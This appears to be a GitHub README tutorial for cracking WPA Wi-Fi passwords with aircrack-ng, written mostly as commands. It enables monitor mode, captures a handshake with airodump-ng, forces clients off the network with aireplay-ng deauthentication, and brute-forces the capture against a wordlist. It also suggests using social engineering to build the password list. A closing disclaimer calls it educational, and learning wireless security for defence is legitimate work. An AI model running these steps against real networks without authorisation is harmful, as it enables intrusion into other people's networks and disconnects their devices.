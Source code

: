 # Instruction

## link youtube video: 

Find your current interface configuration, you should use a wifi module that have embedded the mopnitor mode functions.

***Does my WI-FI supports monitor mode?***
---> #https://blog.rottenwifi.com/wifi-monitoring-mode/#Does_My_Wi-fi_Support_Monitor_Mode

run this command to see the available interface on your machine

```
$ ifconfig
```

if you you want to enable an interface use this command

```
$ ifconfig {interfaceName} up
```
In case of the video i use the embedded wlan0 

```
$ ifconfig wlan0 up
```

Use airmon-ng start wlan0 to enable monitor mode on the wireless interface

```
$ airmon-ng start wlan0
```

Once it's enable run the command to monitor all the Wi-Fi signal nearby

```
$airodump-ng wlan0 
```

choose a connection that you want to try

***I suggest to use meanwhile a file, in which you save notes during all the process, this will be helpful for the next steps.***

create a directory, in which you will save the file.cap that will be generated during the dumps.

```
$ mkdir /....
```

run the command below to start sniffing the connection, the aim is to find a four handshake made by the modem, when a device disconnects himself from the Wi-Fi.
The command to run contains various option.
Below the command and details:

```
$ airodump-ng wlan0mon -c 10 --bssid {MAC_ADDRESS} -w ./..{crack.cap}
```

***A briefly description of the option:***

```
-c  indicates the channel trasmission of the modem

-bssid  indicates the Basic Service Set Identifier

-w indicates the location to write the files
```

Now we have to wait until a device will request a deauth

Boring? 

There is a command to speed up this waiting, simulating a deauth from one device connected to the current target modem.

```
$ aireplay-ng -0 18 -a {MAC_ADDRESS} -c {MAC_ADDRESS} wlan0mon
```

***A briefly description of the option***

```
-0 indicates the number of the deauth tempatives packets 
-a MAC_ADDRESS of the modem
-c MAC_ADDRESS of the device to imperson for the deauth
```

If we are lucky there will be a line outputed on the logs from the command airdump (running on background).

*** Example ***

WPA handshake: {MAC_ADDRESS}


Finally it's time to crack

utilizing the file {name}.cap generated from the airdump command, we run the command

```
aircrack-ng -a2 -b {MAC_ADDRESS} -w {wordListPasswordFile} {name}.cap 
```

***the major difficulty could be guessing the right password, if we use some social engineering we can build a small list password word to brute force. Moreover we can go with big files, maybe we will find the password or not (In this case is trivial to chose a complex password so it will be very very difficult to hack***




 
## Disclaimer: Hacking without permission is illegal. This repo is strictly educational for learning about cyber-security in the areas of ethical hacking and penetration testing so that we can protect ourselves against the real hackers.
